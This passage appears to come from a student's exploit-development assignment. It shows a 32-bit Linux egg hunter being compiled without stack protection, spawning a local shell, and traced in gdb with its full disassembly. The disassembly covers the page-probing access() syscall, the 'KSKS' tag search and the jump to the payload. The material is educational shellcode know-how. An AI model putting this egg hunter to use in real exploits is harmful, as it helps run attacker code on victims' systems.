~~~ bash
skawa@ubuntu:~/Desktop/code/assignment/assignment3$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
skawa@ubuntu:~/Desktop/code/assignment/assignment3$ ./shellcode
[+] Searching for: KSKS
[+] Egg Hunter Length: 16
[+] Shellcode Length: 33
$ exit
skawa@ubuntu:~/Desktop/code/assignment/assignment3$
~~~

### Stepping through the execution
A hook-stop has been defined to keep an eye on the state of the different general purpose registers, eflags as well as the contents of the `EDI` register

~~~ nasm
skawa@ubuntu:~/Desktop/code/assignment/assignment3$ gdb -q ./shellcode
Reading symbols from /home/skawa/Desktop/code/assignment/assignment3/shellcode...(no debugging symbols found)...done.
(gdb) break *&egg_hunter
Breakpoint 1 at 0x804a060
(gdb) run
Starting program: /home/skawa/Desktop/code/assignment/assignment3/shellcode
[+] Searching for: KSKS
[+] Egg Hunter Length: 16
[+] Shellcode Length: 33

Breakpoint 1, 0x0804a060 in egg_hunter ()
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>print/x $eax
>print/x $ebx
>print/x $edx
>print/x $edi
>x/4bx $edi
>i r eflags
>disas
>end
(gdb) stepi
$1 = 0x804a060
$2 = 0xb7fc6ff4
$3 = 0x0
$4 = 0x804a0c2
0x804a0c2:	0x00	0x00	0x00	0x00
eflags         0x282	[ SF IF ]
Dump of assembler code for function egg_hunter:
   0x0804a060 <+0>:	cld    
=> 0x0804a061 <+1>:	xor    eax,eax
   0x0804a063 <+3>:	xor    edx,edx
   0x0804a065 <+5>:	or     dx,0xfff
   0x0804a06a <+10>:	inc    edx
   0x0804a06b <+11>:	lea    ebx,[edx+0x4]
   0x0804a06e <+14>:	mov    eax,0x21
   0x0804a073 <+19>:	int    0x80
   0x0804a075 <+21>:	cmp    al,0xf2
   0x0804a077 <+23>:	je     0x804a065 <egg_hunter+5>
   0x0804a079 <+25>:	mov    eax,0x534b534b
   0x0804a07e <+30>:	mov    edi,edx
   0x0804a080 <+32>:	scas   eax,DWORD PTR es:[edi]
   0x0804a081 <+33>:	jne    0x804a06a <egg_hunter+10>
   0x0804a083 <+35>:	scas   eax,DWORD PTR es:[edi]
   0x0804a084 <+36>:	jne    0x804a06a <egg_hunter+10>
   0x0804a086 <+38>:	jmp    edi
~~~